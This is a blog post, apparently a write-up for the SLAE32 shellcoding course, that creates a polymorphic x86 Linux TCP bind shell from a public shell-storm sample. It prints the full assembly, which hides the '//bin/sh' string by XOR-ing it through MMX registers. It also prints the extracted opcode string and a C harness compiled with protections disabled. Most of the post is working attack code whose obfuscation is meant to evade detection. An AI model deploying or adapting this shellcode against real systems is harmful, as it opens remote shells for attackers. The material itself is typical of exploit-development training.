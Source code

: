 ```yaml
---
title: SLAE32 Assignment 6 -- Polymorphic MMX TCP Bind Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)

For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org. A polymorphic shellcode means that it uses different instructions to deliver the same payload.  
For example, all of these instructions will result in the same action within a program.
```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```
The first shellcode I modified was "tcpbindshell (108 bytes)", created by Russell Willis.  
This shellcode can be found at http://shell-storm.org/shellcode/files/shellcode-847.php.  

The original shellcode length was 108 bytes. Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value. The final length of this polymorphic shellcode is 144 bytes.  
To push the filename string "//bin/sh" onto the stack, I used the MMX registers.   
The code I added / modified is indented.

```nasm
; Original_Length: 108 bytes	Final_Length: 144 bytes
global _start
_start:
	xor	ecx,ecx		; Makes the ECX Register 0
	mul	ecx			; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX.
	mov ebx, eax	; sets the EBX register to 0
	push byte 0x66
	pop edi			; save this for the other functions
	mov eax, edi	; eax is now 0x66 which is the socketcall SYScal
	inc ebx			; EBX = 1; needed to create the socket()
	push edx
push   0x6
	push ebx	 	; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80
	xchg esi,eax

	mov eax, edi	; EAX = 0x66 used for socketcall SYSCAL
	inc ebx			; EBX = 0x2
push   edx
push word 0x697a	; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80

	mov eax, edi	; EAX = 0x66 used for socketcall SYSCAL
	inc ebx
	inc ebx			; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80
	mov eax, edi	; EAX = 0x66 used for socketcall SYSCAL
	inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80
jne    dup2Loop

push   edx
	mov edx, 0xffffffff             ; will be used to XOR the MM0 Register to result in "//bin/sh"
    mov eax, 0x978cd091             ; "n/sh" XOR'd with 0xffffffff
        ;   mov eax, 0x68732f6e             ; "n/sh"
    movd mm0, eax
    psllq mm0, 32                   ; shift the mm0 register left by 4 bytes
    mov ebx, 0x969dd0d0             ; "//bi" XOR'd with 0xffffffff
        ;   mov ebx, 0x69622f2f             ; "//bi" 
    movd mm1, ebx
    paddb mm0, mm1                  ; now mm0 hold the 8 byte XOR'd "//bin/sh"
    movd mm1, edx                   ; mm1 is now 0xffffffff
    psllq mm1, 32                   ; mm1 is now 0xffffffff00000000
    movd mm2, edx                   ; mm2 us biw 0xffffffff
    paddb mm1, mm2                  ; mm1 is now 0xffffffffffffffff
    pxor mm0, mm1                   ; XOR's mm0 with mm1 and saves the results in mm0
    sub esp, 8                      ; Decrement the stack 8 bytes
    movq qword [esp], mm0           ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80

```  

I compiled and linked the shellcode. Then I used object dump to extract the hex.  
```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 
I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
I then compiled the C program.  
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```




